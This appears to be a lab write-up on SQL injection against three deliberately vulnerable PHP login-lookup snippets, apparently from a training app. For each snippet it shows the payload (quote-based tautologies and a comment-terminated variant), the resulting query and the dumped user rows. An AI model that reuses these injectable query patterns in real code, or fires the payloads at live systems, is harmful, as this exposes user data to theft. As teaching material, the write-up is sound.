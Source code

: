# Vulnerable Code 1

This code fetches "first_name" and "last_name" of a user with given "user_id"

```php
<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);
}

?> 
```

## Abuse

Since there is no input filtering for user input, we can sent a payload that didnt expected and get all data from database.

## Payload

```php
' or '1'='1
```

Query that reaches to the database (mysql) will be:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' or '1'='1';
```

## Result

```php
ID: ' or '1'='1
First name: admin
Surname: admin

ID: ' or '1'='1
First name: Gordon
Surname: Brown

ID: ' or '1'='1
First name: Hack
Surname: Me

ID: ' or '1'='1
First name: Pablo
Surname: Picasso

ID: ' or '1'='1
First name: Bob
Surname: Smith
```

# Vulnerable Code 2
This code fetches "first_name" and "last_name" of a user with given "user_id"

```php
<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Display values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

}

// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
$number_of_rows = mysqli_fetch_row( $result )[0];

mysqli_close($GLOBALS["___mysqli_ston"]);
?> 
```


## Abuse

In this code, the id parameter is not inside of apostrophe character so payload will be without it

## Payload

```php
1 or 1=1
```

Query that reaches to the database (mysql) will be:

```sql
SELECT first_name, last_name FROM users WHERE user_id=1 or 1=1;
```


## Result

```php
ID: 1 or 1=1
First name: admin
Surname: admin

ID: 1 or 1=1
First name: Gordon
Surname: Brown

ID: 1 or 1=1
First name: Hack
Surname: Me

ID: 1 or 1=1
First name: Pablo
Surname: Picasso

ID: 1 or 1=1
First name: Bob
Surname: Smith
```


# Vulnerable Code 3

This code fetches "first_name" and "last_name" of a user with given "user_id" and limit result to 1 dataset only.


```php
<?php

if( isset( $_SESSION [ 'id' ] ) ) {
    // Get input
    $id = $_SESSION[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);        
}

?> 
```

## Abuse

In this code there is "Limit 1" at the end of sql query which means we cant get all database like code-1 and code-2. To abuse this code, we will use the same logic in code-1 but also will add "-- -" to make comment rest of the query. 

## Payload

```sql
1' or '1'='1'; -- -
```

Query that reaches to the database (mysql) will be:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' or '1'='1'; -- -' LIMIT 1;
```

## Result

```php
ID: 1' or '1'='1'; -- -
First name: admin
Surname: admin

ID: 1' or '1'='1'; -- -
First name: Gordon
Surname: Brown

ID: 1' or '1'='1'; -- -
First name: Hack
Surname: Me

ID: 1' or '1'='1'; -- -
First name: Pablo
Surname: Picasso

ID: 1' or '1'='1'; -- -
First name: Bob
Surname: Smith
```
